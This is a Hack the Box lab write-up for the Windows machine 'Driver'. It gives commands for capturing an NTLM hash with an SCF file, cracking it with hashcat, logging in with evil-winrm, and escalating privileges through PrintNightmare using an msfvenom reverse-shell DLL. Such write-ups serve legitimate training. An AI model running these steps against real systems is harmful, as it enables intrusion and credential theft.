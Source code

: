 ```yaml
---
title: HtB Driver
author: istify
date: 2022-02-27
category: Hack the Box
layout: post
---
```


# Hack the Box Driver Writeup
Driver was an easy Windows box from Hack the Box created by MrR3boot.
## Recon
I started by doing an nmap scan of the box:
```
sudo nmap -sS -p- 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 06:51 EST
Nmap scan report for 10.10.11.106
Host is up (0.033s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 105.22 seconds
```

I then looked at the http server first. You get prompted for basic auth credentials, but `admin`/`admin` works and gives us access to a Website called "MFP Firmaware Update Center". 

## Foothold
The most interesting part of the web page is a file upload under the "Firmware Updates" tab. I tried around with this upload for a bit and uploaded e.g. executables, as the site claims these should be tested. However after a time I gave up on this. As this is a Windows box an other option would be to trigger an NTLM connection using the file upload. I saw something similar on HtB in the past with an SQL injection, that you could exploit to get an NTLM connection.

We can trigger an NTLM connection in this case by uploading an `.scf` file. There is a blog post on [pentesterlab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) about this. First I started responder using:
```
sudo responder -I tun0 --lm
```
Then I created an `.scf` file and uploaded it. The file I created looked as follows:
```
[Shell]
Command=2
IconFile=\\10.10.14.8\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
This gave me a hash:
```
[SMB] NTLMv2 Hash     : tony::DRIVER:3cf88c22c2b5dfe0:75CF7454B42FD9A156C2525353940DFF:010100000000000087E8256E9326D8017C77361926092FA000000000020000000000000000000000
```
Sadly this is no NetNTLMv1 Hash, however I was able to crack it using hashcat as the password was contained in rockyou.txt:
```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
As can be seen in the nmap scan, winrm is active on the box. So I used the cracked password with evil-winrm to get access to the machine:
```
evil-winrm -u tony -p liltony -i 10.10.11.106
```
At this point I got access to the user flag.

## Privilege escalation 

The box is vulnerable to PrintNightmare, which I looked as first as the machine did have a printer theme. I personally used [this](https://github.com/cube0x0/CVE-2021-1675) exploit and pretty much followed the instructions provieded there. So I installed it, generated a a dll using msfvenom as follows:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=12345 -f dll -o test.dll
```
I then uploaded this dll using evil-winrm and started a nc listener:
```
nc -lvp 12345
```
Afterwards I executed the exploit using:
```
python3 ./CVE-2021-1675.py ./tony:liltony@10.10.11.106 'C:\Users\tony\Documents\test.dll'
```
This gave me system shell and allowed me to read the root flag. 

After machine retired I watched ippsecs's [walktrough](https://www.youtube.com/watch?v=N2ahkarb-zI). One of the privilege escalations used in the video also is PrintNightmare, but with the [powershell script](https://github.com/JohnHammond/CVE-2021-34527) by John Hammond and Caleb Stewart. However there is a second way to escalate privileges using an exploit for a Rico printer driver for which an metasploit module seems to exist. 

Small sidenote: If you ever want to exploit PrintNightmare on a Windows 2008 system you can use [this](https://github.com/evilashz/CVE-2021-1675-LPE-EXP) exploit. I had problems getting the powershell exploit to run on such a system before and this worked for me.


